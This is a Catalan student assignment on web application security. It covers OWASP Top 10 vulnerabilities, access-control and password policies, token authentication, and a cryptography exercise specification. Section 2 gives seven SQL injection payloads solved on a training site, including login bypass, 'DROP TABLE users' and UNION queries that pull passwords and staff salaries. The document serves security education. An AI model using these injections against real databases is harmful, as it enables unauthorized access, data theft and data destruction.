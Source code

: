 # T1. PR1. Seguretat i vulnerabilitat



1. **L’organització [OWASP Foundation](https://owasp.org/Top10/es/) va actualitzar en 2021 el seu Top 10 de vulnerabilitats més trobades en aplicacions web.** 

![](Res/mapping.png)

- **Escull 3 vulnerabilitats d’aquesta llista i descriu-les. Escriu l’impacte que tenen a la seguretat i quins danys pot arribar a fer un atac en aquesta vulnerabilitat. Enumera diferents mesures i tècniques per poder evitar-les.**

1. **Injecció de codi (Injection)**
   - **Impacte**: Permet a un atacant executar codi maliciós en la base de dades o el sistema afectat, comprometent la integritat de les dades.
   - **Danys potencials**: Fuga d'informació, alteració de dades, accés no autoritzat.
   - **Mesures de prevenció**:
     - Ús de sentències preparades (Prepared Statements).
     - Validació estricta d'entrada de dades.
     - Limitació de privilegis en la base de dades.

2. **Autenticació trencada (Broken Authentication)**
   - **Impacte**: Permet als atacants obtenir accés no autoritzat a comptes d'usuaris.
   - **Danys potencials**: Robatori d'identitat, accés a informació sensible, ús maliciós de comptes.
   - **Mesures de prevenció**:
     - Autenticació multifactorial (MFA).
     - Emmagatzematge segur de contrasenyes (bcrypt, Argon2).
     - Sessions segures i amb temps d'expiració.

3. **Exposició de dades sensibles (Sensitive Data Exposure)**
   - **Impacte**: La informació sensible pot ser robada o interceptada.
   - **Danys potencials**: Pèrdua de privacitat, frau financer, ús indegut de dades personals.
   - **Mesures de prevenció**:
     - Cifrat de dades en trànsit i en repòs (TLS, AES-256).
     - Control d’accés rigorós.
     - Evitar emmagatzemar dades sensibles innecessàries.


---


2. **Obre el següent enllaç ([sql inseckten](https://www.sql-insekten.de/)) i realitza un mínim de 7 nivells fent servir tècniques d’injecció SQL.**   
   - **Copia cada una de les sentències SQL resultant que has realitzat a cada nivell i comenta que has aconseguit.**  

      1. `SELECT username 
      FROM users 
      WHERE username ='jane'; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`

      2. `SELECT username 
      FROM users 
      WHERE username ='' ; DROP TABLE users; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`

      3. `SELECT username 
      FROM users 
      WHERE username ='' OR 1=1; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`

      4. `SELECT username 
      FROM users 
      WHERE username ='' OR 1=1 ORDER BY user_id LIMIT 1 --' AND password ='d41d8cd98f00b204e9800998ecf8427e';`

      5. `SELECT product_id, brand, size, price 
      FROM shoes 
      WHERE brand='' UNION select username, password from users; --';`

      6. `SELECT username 
      FROM users 
      WHERE username ='' UNION SELECT s.salary AS staff_salary FROM staff s WHERE s.firstname = 'Greta Maria' -- ' AND password ='d41d8cd98f00b204e9800998ecf8427e';`

      7. `SELECT product_id, brand, size, price 
      FROM shoes 
      WHERE brand='' UNION SELECT name, email, salary, employed_since FROM staff --';`

   - **Enumera i raona diferents formes que pot evitar un atac per SQL injection en projectes fets amb Razor Pages i Entity Framework.** 

### Consideracions de seguretat a seguir segons la documentació d'EF:

- Utilitzeu només proveïdors d'orígens de dades de confiança  
- Xifreu la connexió per protegir les dades confidencials  
- Protegiu la cadena de connexió  
- No exposeu `EntityConnection` a usuaris que no siguin de confiança  
- No passeu les connexions fora del context de seguretat  
- Tingueu en compte que la informació d'inici de sessió i les contrasenyes poden quedar visibles en un bolcat de memòria  
- Concediu als usuaris únicament els permisos necessaris a l'origen de dades  
- Executeu les aplicacions amb els permisos mínims  
- No instal·leu aplicacions que no siguin de confiança  
- Restringiu l'accés a tots els fitxers de configuració  
- Restringiu els permisos als fitxers d'assignació i de model  

### Consideracions de seguretat per a les consultes a la base de dades  

- Impediu els atacs d'injecció de SQL  
- Eviteu conjunts de resultats massa grans  
- Eviteu retornar resultats de `IQueryable` en exposar mètodes a autors de trucades que poden no ser de confiança  


https://learn.microsoft.com/es-es/dotnet/framework/data/adonet/ef/security-considerations

3. **L’empresa a la qual treballes desenvoluparà una aplicació web de venda d’obres d’art. Els artistes registren les seves obres amb fotografies, títol, descripció i preu.  Els clients poden comprar les obres i poden escriure ressenyes públiques dels artistes a qui han comprat. Tant clients com artistes han d’estar registrats. L’aplicació guarda nom, cognoms, adreça completa, dni i telèfon. En el cas dels artistes guarda les dades bancaries per fer els pagaments. Hi ha un tipus d’usuari Acount Manager que s’encarrega de verificar als nous artistes. Un cop aprovats poden pública i vendre les seves obres.**

   **Ara es vol aplicar aplicant els principis  de seguretat per tal de garantir el servei i la integritat de les dades. T’han encarregat l'elaboració de part de les polítiques de seguretat. Elabora els següents apartats:**  
   - **Definició del control d’accés: enumera els rols  i quin accés a dades tenen cada rol.**   

    | Rol | Accés |
    |------|-------|
    | Client | Comprar obres, deixar ressenyes (A de estar registrat)|
    | Artista | Publicar i vendre obres (A de estar registrat, guarda dades bancaries)|
    | Account Manager | Aprovar artistes |
    | Admin | Accés complet |
   - **Definició de la política de contrasenyes: normes de creació, d’ús i canvi de contrasenyes. Raona si són necessàries diferents polítiques segons el perfil d’usuari.**  

        - Mínim **12 caràcters**, combinació de majúscules, minúscules, números i símbols.
        - Canvi cada **90 dies**.
        - Bloqueig temporal després de **5 intents fallits**.

   - **Avaluació de la informació: determina quin valor tenen les dades que treballa l'aplicació. Determina com tractar les dades més sensibles. Quines dades encriptaries?**
        - **Dades a encriptar**: DNI, telèfon, dades bancàries.
        - Utilitzaria un mètode d'encriptació per guardar a la base de dades les dades més sensibles.


---


4. **En el control d’accessos, existeixen mètodes d’autenticació basats en tokens. Defineix l’autenticació basada en tokens. Quins tipus hi ha? Com funciona mitjançant la web? Cerca llibreries .Net que ens poden ajudar a implementar autenticació amb tokens.**

L’autenticació basada en tokens és el procés de verificar la identitat mitjançant la validació d’un token. En la gestió d’accés, els servidors fan servir aquest sistema per confirmar la identitat d’un usuari, una API, un ordinador o un altre servidor.

Un token es un elemento simbólico que expide una fuente de confianza. 

### Tipus de tokens:

- Tokens d'accés  
- Tokens d'identificació  
- JWT autosignats  
- Tokens d'actualització  
- Fitxes al portador

Un **token web** és digital, no un objecte físic. Es tracta d'un missatge enviat per un servidor a un client, que el guarda de manera temporal. En les següents sol·licituds al servidor, el client adjunta una còpia del testimoni per verificar el seu estat d'autenticació.

https://www.cloudflare.com/es-es/learning/access-management/token-based-authentication/
https://cloud-google-com.translate.goog/docs/authentication/token-types?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=rq

---


5. **Crea un projecte de consola amb un menú amb tres opcions:**  
   - **Registre: l’usuari ha d’introduir username i una password. De la combinació dels dos camps guarda en memòria directament l'encriptació. Utilitza l’encriptació de hash SHA256. Mostra per pantalla el resultat.**  
   - **Verificació de dades: usuari ha de tornar a introduir les dades el programa mostra per pantalla si les dades són correctes.**  
   - **Encriptació i desencriptació amb RSA. L’usuari entrarà un text per consola. A continuació mostra el text encriptat i en la següent línia el text desencriptat. L’algoritme de RSA necessita una clau pública per encriptar i una clau privada per desencriptar. No cal guardar-les en memòria persistent.**

	**Per realitzar aquest exercici utilitza la llibreria System.Security.Cryptography.**

6.  **Indica les referències que has consultat, seguint el següent format:**








[![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-22041afd0340ce965d47ae6ef1cefeee28c7c493a6346c4f15d667ab976d596c.svg)](https://classroom.github.com/a/S9WTUTwx)